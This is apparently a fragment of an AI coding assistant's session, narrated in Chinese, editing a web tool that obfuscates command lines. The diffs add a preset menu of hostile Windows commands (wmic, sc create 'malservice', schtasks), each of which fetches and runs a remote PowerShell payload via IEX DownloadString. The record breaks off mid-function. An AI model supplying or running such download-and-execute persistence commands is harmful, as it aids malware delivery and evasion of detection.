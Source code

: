 ```diff
+                         <li role="option" data-command="wmic process call create &quot;powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')&quot;">执行远程PowerShell (wmic)</li>
+                         <li role="option" data-command="sc create malservice binPath= &quot;cmd.exe /c powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')&quot; start= auto">创建恶意服务 (sc)</li>
+                         <li role="option" data-command="schtasks /create /tn &quot;MyTask&quot; /tr &quot;cmd.exe /c powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')&quot; /sc once /st 23:59">创建计划任务 (schtasks)</li>
+                     </menu>
+                 </div>
                  <textarea id="input-command" placeholder="Please paste the command you want to obfuscate here…" tabindex="0" autocomplete="off" autocorrect="off" autocapitalize="off" spellcheck="false"></textarea>
                  <div class="command-bar">
```

---

现在我需要修复之前的代码，因为在main.js中的OnLoad函数中，我添加的代码与实际情况不一致，让我们修复一下：

---

```diff
  }
  function OnLoad() {
-     var _a, _b, _c, _d, _e, _f, _g, _h, _j, _k, _l;
-     window.removeEventListener("DOMContentLoaded", OnLoad, false);
-     if (!document.querySelector("div#tokens"))
-         return;
-     UpdateTokens();
-     GenerateObfuscationOptionsHTML();
-     (_a = document.getElementById("format-picker")) === null || _a === void 0 ? void 0 : _a.addEventListener("change", FetchJsonFile);
+     document.getElementById("input-command").focus();
+     var _a, _b, _c, _d, _e, _f, _g, _h, _i, _j, _k, _l, _m, _n;
+     (_a = document.getElementById("input-command")) === null || _a === void 0 ? void 0 : _a.addEventListener("keyup", UpdateTokens);
      (_b = document.getElementById("json-file")) === null || _b === void 0 ? void 0 : _b.addEventListener("change", ReadJsonFile);
-     (_c = document.getElementById("input-command")) === null || _c === void 0 ? void 0 : _c.addEventListener("keyup", debounce(UpdateTokens, 1000));
-     (_d = document.getElementById("input-command")) === null || _d === void 0 ? void 0 : _d.addEventListener("paste", function () { return setTimeout(UpdateTokens, 0); });
-     (_e = document.getElementById("obfuscation-run")) === null || _e === void 0 ? void 0 : _e.addEventListener("click", function () { return ApplyObfuscation(); });
+     (_c = document.getElementById("obfuscation-run")) === null || _c === void 0 ? void 0 : _c.addEventListener("click", ApplyObfuscation);
      addEnterListener(document.getElementById("obfuscation-run"));
+     
+     // 处理常见命令菜单
+     (_d = document.getElementById("common-commands-btn")) === null || _d === void 0 ? void 0 : _d.addEventListener("click", function (_) { return ShowContextMenu(document.getElementById('common-commands-menu'), document.getElementById('common-commands-btn')); });
+     addEnterListener(document.getElementById("common-commands-btn"));
+     
+     // 处理常见命令选择
+     (_e = document.getElementById('common-commands-menu')) === null || _e === void 0 ? void 0 : _e.childNodes.forEach(function (MenuItem) {
+         if (MenuItem.nodeType === 1) {  // 仅处理元素节点
+             MenuItem.addEventListener("click", function (e) {
+                 var cmdElement = document.getElementById("input-command");
+                 if (cmdElement && MenuItem.dataset.command) {
+                     cmdElement.value = MenuItem.dataset.command;
+                     // 触发输入更新
```